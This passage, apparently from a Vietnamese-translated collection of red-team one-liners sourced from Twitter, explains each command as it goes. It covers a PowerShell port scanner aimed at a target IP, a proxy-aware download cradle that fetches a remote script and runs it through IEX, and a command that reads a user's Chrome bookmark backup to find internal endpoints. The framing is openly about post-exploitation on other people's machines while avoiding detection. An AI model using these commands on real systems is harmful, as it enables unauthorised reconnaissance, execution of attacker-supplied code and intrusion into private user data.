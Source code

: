 **Liên kết:** [Twitter](https://twitter.com/GuhnooPlusLinux/status/1607473627922063360)

### [🔙](#tool-list)Máy quét cổng "**Live off the land**"

```bash
0..65535 | % {echo ((new-object Net.Sockets.TcpClient).Connect(<tgt_ip>,$_)) "Port $_ open"} 2>$null
```
**Lưu ý:** Đoạn mã này sử dụng **PowerShell** để thử kết nối tới tất cả các cổng (từ 0 đến 65535) trên một địa chỉ IP mục tiêu cụ thể (`<tgt_ip>`). Nếu kết nối thành công, nó sẽ in thông báo "Port <số cổng> open". Đây là một cách đơn giản để quét cổng chỉ bằng các **lệnh có sẵn trong Windows**, tránh tải xuống các công cụ quét chuyên dụng.

**Mô tả:** *'Khi có thể, hãy "**live off the land**" thay vì tải **công cụ** lên máy (vì nhiều lý do). **PowerShell/.NET** giúp ích. Ví dụ: **máy quét cổng** đơn giản trong **Powershell**.'*

**Đóng góp:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Liên kết:** [Twitter](https://twitter.com/Alh4zr3d/status/1605060950339588096)

### [🔙](#tool-list)PowerShell DownloadString có hỗ trợ proxy

```bash
$w=(New-Object Net.WebClient);$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;IEX $w.DownloadString("<url>")
```
**Lưu ý:** Đoạn mã này sử dụng lớp `Net.WebClient` trong **PowerShell** để tải xuống một chuỗi (thường là một **script** hoặc **payload**) từ một **URL** (`<url>`). Đặc điểm quan trọng là nó thiết lập thông tin xác thực proxy mặc định của mạng (`[Net.CredentialCache]::DefaultNetworkCredentials`), cho phép hoạt động tải xuống thành công ngay cả trong các môi trường có yêu cầu xác thực proxy. `IEX` là bí danh cho `Invoke-Expression`, được sử dụng để thực thi chuỗi đã tải xuống.

**Mô tả:** *'Hầu hết các tổ chức lớn đều sử dụng **proxy web** hiện nay. Hàm **DownloadString PowerShell** tiêu chuẩn không hỗ trợ **proxy**. Hãy sử dụng cái này.'*

**Đóng góp:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Liên kết:** [Twitter](https://twitter.com/Alh4zr3d/status/1596192664398966785)

### [🔙](#tool-list)Tìm kiếm các **endpoint nội bộ** trong dấu trang trình duyệt

```bash
type "C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default\Bookmarks.bak" | findstr /c "name url" | findstr /v "type"
```
**Lưu ý:** Lệnh này sử dụng các tiện ích dòng lệnh của **Windows** (`type` và `findstr`) để đọc nội dung tệp sao lưu dấu trang của Google Chrome và tìm kiếm các dòng chứa cả "name" và "url", sau đó loại bỏ các dòng chứa "type". Nó nhằm mục đích lọc ra tên và **URL** của các dấu trang để tìm kiếm các tài nguyên nội bộ mà người dùng đã lưu. Tệp dấu trang có thể có vị trí hơi khác tùy phiên bản Chrome và **HĐH**.

**Mô tả:** *'Bạn sẽ ngạc nhiên với những gì bạn có thể tìm thấy chỉ từ dấu trang của người dùng. Các **endpoint nội bộ** mà họ có thể truy cập, chẳng hạn.'*
